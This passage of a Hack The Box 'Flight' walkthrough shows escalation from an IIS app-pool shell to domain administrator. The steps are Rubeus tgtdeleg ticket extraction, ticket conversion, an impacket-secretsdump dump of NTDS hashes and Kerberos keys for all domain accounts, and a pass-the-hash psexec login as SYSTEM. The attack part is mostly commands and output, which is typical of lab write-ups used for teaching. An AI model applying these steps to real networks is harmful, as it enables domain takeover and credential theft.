We could execute commands via our webshell.


We got a reverse shell running this command on our webshell.


And listening on our local machine with netcat.


We upload to the Windows host the Rubeus tool in order to impersonate kerberos tickets, because now we have a shell as a system user level.

```bash
PS C:\windows\system32\inetsrv> whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                   
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                          Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                           Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
**SeImpersonatePrivilege        Impersonate a client after authentication Enabled** 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

# Privilege Escalation (Administrator)

Running Rubeus we got the ticket for delegation like the following.

```bash
PS C:\programdata> .\Rubeus.exe tgtdeleg /nowrap
.\Rubeus.exe tgtdeleg /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/g0.flight.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: 3VOZvk6zhyXH6Ypup+sFbSZ7LGgK9U56f4jwXsXowwg=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      **doIFVDCCBVCgAwIBBaEDAgEWooIEZDCCBGBhggRcMIIEWKADAgEFoQwbCkZMSUdIVC5IVEKiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCkZMSUdIVC5IVEKjggQgMIIEHKADAgESoQMCAQKiggQOBIIEChqz4StwFeBiufFUm7iCpGxuclI0ifCeXQziw7WkS35GRHEOAVVXfxkG1aOiP6AutaqD6SGo4Q1VE00fShkJXC0gND15BCHhmFvC8gHM504PK2ccvQXF0cS1VtiuEuq3PmqtvyRv8IoAEuNFp2z9VQTeKkUQrb55sm8veY6N4h9MRsXIab91sznDRxSpQx6VX3UyVNqB3GePPb9C**/RxuqNXvpl1gPr9/cNBdqLfrhQ7D27+PSvtjLdKZbd8r6aN6UMo8uxIRWkSOUgDGJmHW81GthYqHN6HJhA+SQW/C3eUabUKYczwUlXjqrDMndQfSIV/6MS9Brx1OwZ54vCC0D2YyXFQey+fzw6CR/eRRyGddbQdhq7wkBslaLTNlbl4koGdpTt5g3/ngGQMGPhQPRa2JK8fPB1BJZIbwiAXvBlU+DiXxlRFT3gsW69w+o/EkRlTLDNLcLRZXcLD89PjquOnZJFco48NWtfBP8XgVeCvlOdffTFiEo5swKVLuZTmLmnLSniFYLuOYZ27Luij2bVMHCVGLem5Zsm60OlTCwwh4B+pJLmMJxLk9zGOw+TgveqjIfwOm/+GjBJq3XM7LjX6oQp68O/Ns/97n4AVk0VPGlOhYVpA7IJXGTWJpizTOP8gchXVcGD9iSiInYOnpJjkJq19b+TjhLSSVLMr4Ofv7Iwk7GPdR1Cb2JDMlqwKC9tjgf86o5Nd+d7hLpAbGepI31IbST4ECbte0gOTBPDEadTymxDR24YNErcD2zAHdHBh8HJhO/V6s9CenJLlsWatKNQ8cpvvQd3T5cnHd1MRB7N9ONAcX92HSj0AiL0ahSpD3yyW8FLMuh+2sP42yu14TGy+9iTzpWZT18/6mtaAEkRw6b8wjkEwsicmRRozjeMNvKdXW5EIS2EdprcgM2++sBr4ZwpBOC8P84+EmHeUo7mMSPCMxdzxivVVskCkuq8O/8iiHiH5QcDB5vU/46U0Ho/9ThBX0UhoiY0OVQQznNI+z9QiwNhC5hk+6cKL1cL+3CHD/80C4DeuEl6Bv/IELZ9kTPdgZf0XoP8sLhgPAVWS0cd35TzwZyjEtVPsYQgkPNllvgF36wm/svXDHZ7DlDq1zhpCCUkuHzrHNEH37o5CrPLdXdXsAzaXf666J7F8DNI6l++mol2k0uxyW5GqRwnt5E1z6pBNQTrXiGeIoV74UHa7RWh9SmFbWzfQwVObUMR+e2dvmpB+JGX855EUlj+1sFfwE8oqBPQ6HYwaNiWTfJ2WGHzN/YHCRXBG0PSZeOCwdxxpggCY84MhcyvrugxWSjZWjguiw1lXEzoG4L9iBOI8LEwtpOcuLJX+nEG9ITOiTeUQuuHOhiQ+TpdYkOWINhEC/mqHfo4HbMIHYoAMCAQCigdAEgc19gcowgceggcQwgcEwgb6gKzApoAMCARKhIgQgAYUL1SiE2vQELq44TdLrZLm/X/k5scrfaXIfFusC14OhDBsKRkxJR0hULkhUQqIQMA6gAwIBAaEHMAUbA0cwJKMHAwUAYKEAAKURGA8yMDIzMDUxMjAxNDQyMlqmERgPMjAyMzA1MTIxMTQ0MjJapxEYDzIwMjMwNTE5MDE0NDIyWqgMGwpGTElHSFQuSFRCqR8wHaADAgECoRYwFBsGa3JidGd0GwpGTElHSFQuSFRC
```

Know we convert the ticket generated to cache format like this.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ minikerberos-kirbi2ccache ticket.kirbi ticket.ccache
INFO:root:Parsing kirbi file /home/th3g3ntl3m4n/htb/machines/images/ticket.kirbi
INFO:root:Done!
```

Exporting our new ticket ccache we run secretsdump tool in order to get the administrator hash account. First, we had to synchronized our clock with the Windows host using `sudo ntpdate -s flight.htb`

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ impacket-secretsdump -k -no-pass -just-dc-user administrator g0.flight.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
**Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::**
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:08c3eb806e4a83cdc660a54970bf3f3043256638aea2b62c317feffb75d89322
Administrator:aes128-cts-hmac-sha1-96:735ebdcaa24aad6bf0dc154fcdcb9465
Administrator:des-cbc-md5:c7754cb5498c2a2f
[*] Cleaning up...
```

NOTE: If running `secretsdump` without specifying -just-dc-user option, we were able to get the other users hashes from the Windows host.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]                                                                                                                                         
╰─ $ impacket-secretsdump -k -no-pass g0.flight.htb                                                                                                                                                              
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation                                                                                                                                                         
                                                                                                                                                                                                                 
[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user                                                                                                                  
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                                                                    
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                                                                                             
**Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::                                                                                                                           
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                                                                   
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6a2b6ce4d7121e112aeacbc6bd499a7f:::                                                                                                                                  
S.Moon:1602:aad3b435b51404eeaad3b435b51404ee:f36b6972be65bc4eaa6983b5e9f1728f:::                                                                                                                                 
R.Cold:1603:aad3b435b51404eeaad3b435b51404ee:5607f6eafc91b3506c622f70e7a77ce0:::                                                                                                                                 
G.Lors:1604:aad3b435b51404eeaad3b435b51404ee:affa4975fc1019229a90067f1ff4af8d:::                                                                                                                                 
L.Kein:1605:aad3b435b51404eeaad3b435b51404ee:4345fc90cb60ef29363a5f38e24413d5:::                                                                                                                                 
M.Gold:1606:aad3b435b51404eeaad3b435b51404ee:78566aef5cd5d63acafdf7fed7a931ff:::                                                                                                                                 
C.Bum:1607:aad3b435b51404eeaad3b435b51404ee:bc0359f62da42f8023fdde0949f4a359:::                                                                                                                                  
W.Walker:1608:aad3b435b51404eeaad3b435b51404ee:ec52dceaec5a847af98c1f9de3e9b716:::                                                                                                                               
I.Francis:1609:aad3b435b51404eeaad3b435b51404ee:4344da689ee61b6fbbcdfa9303d324bc:::                                                                                                                              
D.Truff:1610:aad3b435b51404eeaad3b435b51404ee:b89f7c98ece6ca250a59a9f4c1533d44:::                                                                                                                                
V.Stevens:1611:aad3b435b51404eeaad3b435b51404ee:2a4836e3331ed290bd1c2fd2b50beb41:::                                                                                                                              
svc_apache:1612:aad3b435b51404eeaad3b435b51404ee:f36b6972be65bc4eaa6983b5e9f1728f:::                                                                                                                             
O.Possum:1613:aad3b435b51404eeaad3b435b51404ee:68ec50916875888f44caff424cd3f8ac:::
G0$:1001:aad3b435b51404eeaad3b435b51404ee:140547f31f4dbb4599dc90ea84c27e6b:::**
```

Running `psexec` tool and pass the Administrator hash got previously we got a shell as Administrator account.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c flight.htb/Administrator@10.10.11.187
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.11.187.....
[*] Found writable share ADMIN$
[*] Uploading file BpLeIbVN.exe
[*] Opening SVCManager on 10.10.11.187.....
[*] Creating service VWUg on 10.10.11.187.....
[*] Starting service VWUg.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```